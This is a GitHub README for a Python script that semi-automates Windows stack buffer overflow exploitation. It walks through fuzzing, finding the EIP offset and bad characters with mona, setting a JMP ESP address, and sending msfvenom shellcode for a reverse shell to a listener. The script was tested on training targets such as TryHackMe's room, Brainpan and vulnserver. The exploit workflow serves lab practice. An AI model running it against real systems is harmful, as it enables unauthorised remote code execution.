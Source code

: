 # BOF-SemiAutomatic
A python based semi-automatic buffer overflow exploit script 

# How to 

Step 1 : Edit the code and add remote address, remote port, command, listener IP and port. 

#Server response timeout, will be used to identify a crash.
timeout = 5
#Add vulnerable server's IP address and port to connect
addr = ('<IP address>',<PORT>)
#Add command to send prepended to the buffer, eg. 'TRUN .' for vulnserver.exe
cmd = "<COMMAND>"

Run '''python semi-win32.py fuzz '''

Step 2 - Follow the onscreen instructions and run mona to find the offset 

Update the correct EIP offset in the code

#Default starting EIP offset is 50, change to correct EIP offset after fuzz step
offset = 50  

Run '''python semi-win32.py badchars '''

Update the badchars in the code as you find them, rerun multiple times until mona shows no modified chars 

Step 3 - Update set the 'JMP ESP' address in the code 

Make sure your listener is running and run '''python semi-win32.py shell'''

 
# Testing 

Tested on TryHackMe labs - https://tryhackme.com/room/bufferoverflowprep - Thanks to Tib3rius

Tested on Brainpan.exe

Tested on vulnserver.exe (spiking done seperately)





# Known issues

Ignore the below waring, its because I used 'import' used inside a function. Its just a dirty way to read the shellcode generated by msfvenom 

semi-win32.py:97: SyntaxWarning: import * only allowed at module level
  def shellcode(addr,cmd,lhost,lport,j,esp,timeout):
